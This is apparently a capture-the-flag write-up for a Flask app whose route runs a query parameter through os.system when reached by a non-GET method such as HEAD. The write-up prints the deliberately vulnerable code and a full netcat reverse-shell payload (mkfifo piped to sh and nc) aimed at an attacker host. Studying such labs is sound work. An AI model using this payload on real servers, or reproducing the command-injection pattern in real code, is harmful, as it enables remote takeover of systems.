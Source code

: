 We were given the source code for the web
```python
#!/usr/bin/env python3
from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/' , methods=['GET'])
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
    else:
        os.system(c)
    return c

app.run(host='0.0.0.0', port=1337)
```
This Flask application has a potential security vulnerability because it allows arbitrary command execution through the ```os.system(c)``` line when the else branch is triggered. 
The input ```url/?c=``` comes directly from the query string, which means that an attacker could inject any command via the URL and execute it on the server.

But in the initial state the web uses a GET method as the request and looking at the source code
```python
def index():
    c = request.args.get('c', '')
    if not c:
        return "hmm gimme something"

    if request.method == 'GET':
        ''
``` 
if the method being use is a GET request we get nothing. Now look a the ```else``` condition
```python
 else:
        os.system(c)
    return c
```
so if we make use of another request method like HEAD, which is a request method that was allowed, we will be able to get the vulnerability. which is command injection

so the payload used was  ```curl -I http://url/?c=`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <attacker IP> <port> >/tmp/f` ``` this payload was used beacuse it was a blind command injection
.
This will get us a reverse shell and we can get the flag
      

